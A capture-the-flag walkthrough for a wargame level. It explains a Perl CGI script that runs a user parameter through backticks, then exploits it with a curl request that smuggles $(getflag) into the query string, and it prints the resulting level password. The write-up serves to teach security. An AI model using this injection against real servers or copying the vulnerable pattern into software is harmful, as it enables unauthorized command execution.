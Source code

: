 

# **Level04**

### **Walk through**

For this level, we have a file level04.pl in our home. It's a Perl script. 

`cat level04.pl` gives us:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x")); 
```
**sub x** defines a subroutine. In it, there's a variable **y** that takes the value of the first argument of the function. The back ticks mean for **print** that it has to execute the shell command `echo $y 2>&1` instead of print `echo $y 2>&1`. So we can conclude that **y** aka the first param will be executed. So the idea in this case is to pass `getflag` as argument to the **x** subroutine. To do so, we'll use that command:

`curl 'localhost:4747?x=$(getflag)'`  gives us **`ne2searoevaevoem4ov4ar8ap`**

We will use it to log as level05

`su level05`
